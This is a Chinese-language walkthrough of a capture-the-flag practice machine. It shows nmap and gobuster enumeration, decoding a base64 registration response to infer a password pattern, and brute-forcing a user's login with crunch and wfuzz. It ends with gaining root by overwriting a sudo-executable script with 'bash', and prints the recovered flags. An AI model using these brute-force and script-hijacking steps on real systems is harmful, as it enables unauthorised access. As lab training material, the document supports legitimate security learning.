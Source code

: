 VM网络不通也没法改密码进去，只能下个VirtualBox和VMware互通了

[vmware与virtualbox虚拟机互通\_vmware和virtualbox互联-CSDN博客](https://blog.csdn.net/m0_55857257/article/details/133683725)
但这也不行，看来只能使用端口映射了
[Virtualbox虚拟机与主机相互访问\_virtualbox win7虚拟机与本机互访-CSDN博客](https://blog.csdn.net/lxyoucan/article/details/125058943)


# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ nmap -sV -A -T 4 -p- 192.168.18.238

```
21,22,80
这里有个ftp有个匿名访问，里面有个output 文件，记录一些登录后的操作，我们先放着。可以知道一个用户名是matthew
# 目录扫描
```css
gobuster dir -u http://192.168.18.2338/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,png -e
```

这里发现一个任意注册接口http://192.168.18.238/create_account.php，发现存在一定的规律，创建成功后会以bash64的方式返回账号密码
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ echo "dXNlcm5hbWU9YWRtaSZwYXNzd29yZD1hZG1pMjAyNEA3NzEy" | base64 -d    
username=admi&password=admi2024@7712 
```
解码后，发现密码的规律是用户名+2024@四位随机数，但是这是去年的靶场，所以应该是2023

发现还有一个用户名遍历漏洞，只要是被注册的用户都会返回 Username already exists

所以我们尝试爆破matthew用户，可以用burp但是太慢，我用wfuzz
先生成一个字典
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ crunch 4 4 0123456789 -o 1234

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ for i in {1000..10000};do echo $i;done > numbers.txt

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ wfuzz -X POST -d "username=matthew&password=matthew2024@FUZZ" -w 1234 -u http://192.168.18.238/login.php --hw 103
=====================================================================
ID           Response   Lines    Word       Chars       Payload     
=====================================================================

000001555:   302        0 L      0 W        0 Ch        "1554"  
```

所以用户密码是`matthew: matthew2023@1554
ssh连接
```js
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh matthew@192.168.18.238  //matthew2023@1554

matthew@uvalde:~$ cat user.txt 
6e4136fbed8f8c691996dbf42697d460

```
# 提权
```c
sudo -l //(ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
这里有个勒索程序
matthew@uvalde:~$ sudo /bin/bash /opt/superhack 
Pay 0.000047 BTC to 3FZbgi29cpjq2GjdwV8eyHuJJnkLtktZc5 to unlock backdoor.                                                        
```
不过这里写什么并不重要，重要的是我们可以修改该文件
我们将superhack 文件重命名为superhack.back，然后重新创建一个superhack 文件，里面写入bash，然后使用sudo 执行，成功获取root 权限。
```c
matthew@uvalde:~$ cd  /opt/
matthew@uvalde:/opt$ mv superhack superhack.bak
matthew@uvalde:/opt$ echo "bash" > superhack
matthew@uvalde:/opt$ sudo -u root /bin/bash /opt/superhack

root@uvalde:~# cat root.txt
59ec54537e98a53691f33e81500f56da

```


